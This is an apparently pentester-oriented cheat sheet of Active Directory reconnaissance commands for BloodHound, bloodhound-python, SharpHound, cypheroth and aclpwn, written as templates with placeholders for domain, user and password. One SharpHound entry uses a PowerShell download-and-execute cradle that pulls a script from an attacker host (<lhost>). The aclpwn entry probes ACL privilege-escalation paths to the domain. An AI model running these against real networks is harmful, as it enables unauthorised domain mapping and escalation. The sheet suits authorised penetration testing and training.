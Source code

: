 # bloodhound

% bloodhound, Active directory enumeration

## start neo4j server
#platform/linux #target/serve #cat/UTILS
https://neo4j.com/docs/

```bash
neo4j start
```

## bloodhound start IHM
#platform/linux #target/local #cat/RECON
https://github.com/BloodHoundAD/BloodHound

```bash
bloodhound
```

## bloodhound - collect data
#platform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -c all
```

## bloodhound - collect data (alternative)
#platform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -gc <global_catalog> -dc <domain_controler> -c all
```

## sharphound - collect bloodhound data
#platform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
import-module sharphound.ps1
invoke-bloodhound -collectionmethod all -domain <domain>
```

## sharphound - collect bloodhound data download and execute
#platform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/SharpHound.ps1') | Invoke-BloodHound -CollectionMethod All  -domain <domain>
```

## cypheroth - start
#platform/linux #target/local #cat/RECON 
Toolset that runs cypher queries against Bloodhound's Neo4j backend and saves output to spreadsheets.

https://github.com/seajaysec/cypheroth

```bash
cypheroth -u <bh_user|neo4j> -p <bh_password|exegol4thewin> -d <domain>
```

## aclpwn - from computer to domain - dry run
#platform/linux #target/local #cat/RECON 
Aclpwn.py is a tool that interacts with BloodHound to identify and exploit ACL based privilege escalation paths.

https://github.com/fox-it/aclpwn.py

```
aclpwn -f <computer_name> -ft computer -d <domain> -dry
```



